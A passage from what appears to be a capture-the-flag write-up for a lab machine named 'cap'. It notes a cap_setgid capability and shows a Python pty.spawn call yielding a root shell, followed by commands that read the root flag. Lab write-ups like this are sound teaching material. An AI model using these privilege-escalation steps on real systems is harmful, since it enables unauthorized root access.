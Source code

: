 There is a `cap_setgid` capability as well that was not set here.

Now using `pty` to get a shell again gives a shell as the root user:

```

>>> pty.spawn("bash")
root@cap:/var/www/html# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)

```

From there I can grab `root.txt`:

```

root@cap:/var/www/html# cd /root/
root@cap:/root# cat root.txt
f766c793************************

```